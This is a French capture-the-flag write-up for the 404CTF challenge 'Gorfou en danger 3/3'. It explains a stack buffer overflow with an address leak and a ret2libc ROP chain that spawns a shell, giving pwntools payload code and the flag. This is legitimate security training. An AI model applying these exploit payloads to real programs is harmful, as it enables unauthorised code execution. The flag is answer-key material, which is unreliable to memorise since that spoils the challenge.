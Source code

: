 # Writeup pour `Gorfou en danger 3/3`

Auteur : *Pwnsard*  
Difficulté : *Facile*

### Notions prérequises :
- Fonctionnement d'une stackframe
- Buffer overflow
- Return Oriented Programming
- Protections de base

### Protections :

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   RUNPATH     43 Symbols	  No	0		2		chall
```

### Principe

Il s'agit d'un buffer overflow basique pour faire un **`ret2libc`** sur un buffer de la stack.  
Le code est strictement identique à celui du challenge précédent. La seule différence est que, cette fois, une protection en plus (NX) rend la stack non exécutable. On ne peut donc plus utiliser un shellcode, il faut effectuer une `ROPchain`. (Cette solution donc fonctionne également pour le challenge précédent)

Dans cette partie du code, il y a toujours un overflow evident de 0x30 bytes :

```C
char command[0x100]; 
printf("> ");
read(0, command, 0x130);
```

On a donc le contrôle du flow d'exécution (il n'y a même pas besoin de leaker un canary), il nous suffit désormais de connaître l'adresse de la libc (qui est la librairie standard qui fournit pleins de fonction, comme printf par exemple) afin d'aller éxecuter la fonction `system` qui permet l'exécution de programmes externes. En exéctuant `system("/bin/sh")` on obtient un shell.
Comme dans le challenge précédent, il y a une fonction qui permet de trouver très facilement l'adresse de la libc dans la mémoire.

```C
void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}
```

La méthode est la même, en envoyant le payload
```python
r.send(b"A" * (0x100 + 8) + p64(exe.symbols['debug_info']) + p64(exe.symbols['take_command']))
```
on réécrit le saved rip avec l'adresse de debug_info, qui nous affiche les adresses. Puis une fois debug_info exécutée, on retourne dans `take_command`, pour exécuter un dernier payload allant exécuter une ROPchain qui va lancer system. Le buffer overflow est suffisament long pour contenir toute notre ROPchain.

```python
rop = ROP(libc)
ret_gadget = (rop.find_gadget(['ret']))[0]
pop_rdi_gadget = (rop.find_gadget(['pop rdi', 'ret']))[0]
binsh = libc.address + 0x1b1ece
system = libc.address + 0x2edb0

payload = b"A" * 0x108
payload += p64(ret_gadget)
payload += p64(pop_rdi_gadget)
payload += p64(binsh)
payload += p64(system)

r.send(payload)
```

### Script de résolution :

Voir `solve.py`

### Flag : 

`404CTF{FELiC174TI0nS_!_cE_N_E$T_QUe_Le_DebUT_C0NTiNU32_À_4pPREnDR3_l3_pWn}`